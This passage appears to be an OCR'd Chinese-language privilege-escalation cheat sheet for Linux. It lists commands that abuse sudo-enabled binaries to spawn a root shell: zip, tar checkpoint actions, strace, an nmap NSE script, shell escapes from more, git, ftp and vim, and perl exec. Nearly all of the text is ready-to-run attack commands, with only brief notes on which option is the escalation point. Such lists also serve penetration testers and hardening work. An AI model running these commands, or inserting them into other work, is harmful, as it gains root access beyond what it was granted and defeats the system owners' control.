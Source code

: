 - zip
    ```bash
    sudo zip /tmp/tmp.zip /tmp/ -T --unzip-command="sh -c /bin/bash"

    -T 表示测试 test.zip 的完整性
    –unzip-command 与 -T 一起使用，可以指定自定义命令用于解压 test.zip
    ```

- tar
    ```bash
    sudo tar cf /dev/null test --checkpoint=1 --checkpoint-action=exec=/bin/bash

    –checkpoint-action 选项是提权点,可以自定义需要执行的动作
    ```

- strace
    ```bash
    sudo strace -o /dev/null /bin/bash
    ```

- nmap

    低版本的 nmap3.x 有 interactive 模式，且设置了 suid，这个时候可以进入交互模式 执行 !sh 命令即可轻松完成提权。
    ```bash
    echo "os.execute('/bin/bash')" > /tmp/shell.nse
    sudo nmap --script=/tmp/shell.nse
    ```

- more
    ```bash
    sudo more /etc/hosts
    !/bin/bash
    ```

- git
    ```bash
    sudo git help status
    !/bin/bash
    ```

- ftp
    ```bash
    sudo ftp
    ftp> !/bin/bash
    ```

- vim
    ```bash
    sudo vim -c '!bash'
    ```

- perl:
    ```bash
    sudo perl -e 'exec "/bin/bash";'
    ```

